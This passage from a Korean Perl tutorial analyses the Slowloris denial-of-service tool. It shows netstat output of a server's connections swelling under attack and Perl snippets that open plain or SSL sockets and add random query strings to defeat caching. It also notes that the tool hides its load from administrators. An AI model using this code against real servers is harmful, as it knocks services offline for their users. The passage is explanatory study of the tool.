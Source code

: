     tcp        0      0 192.168.25.33:80  192.168.25.29:36964  SYN_RECV
    ....

30초 후 http 세션의 갯수입니다. 엄청나게 늘어났습니다. 현재 저 세션은 OPEN 상태입니다.
세션이 다시 줄어드는 이유는 공격을 한 후 다시 세션을 회수하기 때문입니다.
관리자가 눈치채지 못하게 말이죠.

    #!bash
    [root@centos63 ~]$ netstat -atn |wc -l
    173
    [root@centos63 ~]$ netstat -atn |wc -l
    177
    [root@centos63 ~]$ netstat -atn |wc -l
    202
    [root@centos63 ~]$ netstat -atn |wc -l
    232
    [root@centos63 ~]$ netstat -atn |wc -l
    449
    [root@centos63 ~]$ netstat -atn |wc -l
    647
    [root@centos63 ~]$ netstat -atn |wc -l
    639
    [root@centos63 ~]$ netstat -atn |wc -l
    475

다시 코드로 돌아가겠습니다.
소켓을 생성합니다. HTTP와 동일하여 패킷은 생략합니다.
SSL과 INET의 경우를 구분하였습니다.

    #!perl
    if ($ssl) {
        $sock = IO::Socket::SSL->new(
            PeerAddr => $host,
            PeerPort => $port,
            Timeout  => $tcpto,
            Proto    => "tcp"
        );
        $working = 1 if $sock;
    }
    else {
        $sock = IO::Socket::INET->new(
            PeerAddr => $host,
            PeerPort => $port,
            Timeout  => $tcpto,
            Proto    => "tcp",
        );
        $working = 1 if $sock;
    }

이어서 실제로 세션수를 정의 하는 부분이다.
서버의 No-Store 캐시 옵션을 역이용 하여 캐시를 생성하도록 부하를 주게됩니다.

    #!perl
    if ($working) {
        if ($cache) {
            $rand = "?" . int rand(99999999999999);
        }
        else {
            $rand = "";
        }
        # 아래에 계속..
        

[author]: https://twitter.com/newbcode
[module-inet]: https://www.metacpan.org/module/IO::Socket::INET
[module-ssl]: https://www.metacpan.org/module/IO::Socket::SSL
[module-trace]: https://www.metacpan.org/module/Devel::Trace::More
[slowloris]: http://ha.ckers.org/slowloris/
[img-1]: 2012-12-17-1.jpg
[img-2]: 2012-12-17-2.jpg
[img-3]: 2012-12-17-3.jpg
[img-4]: 2012-12-17-4.jpg
[img-5]: 2012-12-17-5.jpg
[img-resize-1]: 2012-12-17-1_r.jpg
[img-resize-2]: 2012-12-17-2_r.jpg
[img-resize-3]: 2012-12-17-3_r.jpg
[img-resize-4]: 2012-12-17-4_r.jpg
[img-resize-5]: 2012-12-17-5_r.jpg